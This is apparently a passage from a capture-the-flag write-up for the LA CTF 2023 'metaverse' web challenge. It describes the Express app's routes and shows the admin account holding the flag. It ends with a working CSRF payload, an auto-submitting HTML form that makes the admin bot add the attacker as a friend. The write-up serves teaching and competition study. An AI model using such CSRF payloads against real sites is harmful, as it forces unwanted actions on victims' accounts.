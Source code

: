 
This code defines a simple web application using the Express framework in Node.js. The application allows users to register and log in, post updates, and view other users' posts.

The code sets up the following routes:

> `/post/:id`: This route displays the content of a post with the given ID.
{: .prompt-info }
> `/`: This route requires the user to be logged in and serves static HTML content.
{: .prompt-info }
> `/login`: This route serves static HTML content for the login page.
{: .prompt-info }
> `/register`: This route handles the user registration process.
{: .prompt-info }
> `/login`: This route handles the user login process.
{: .prompt-info }

We can easily register an account and login.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/4_lactf2023/web7.png)

Looking at the source code, the flag is located in `displayname` of the admin account.

```js
accounts.set("admin", {
    password: adminpw,
    displayName: flag,
    posts: [],
    friends: [],
});
```

Also, the display name will be available at home page if they also add our `username` as a friend. Since, we can create anything for the admin to access via `https://admin-bot.lac.tf/metaverse`. Let's create a CSRF payload to send to admin to add our username as a friend.

Payload CSRF:

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://metaverse.lac.tf/friend" method="POST">
      <input type="hidden" name="username" value="admin123" />
      <input type="submit" value="Submit request" />
    </form>
 <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
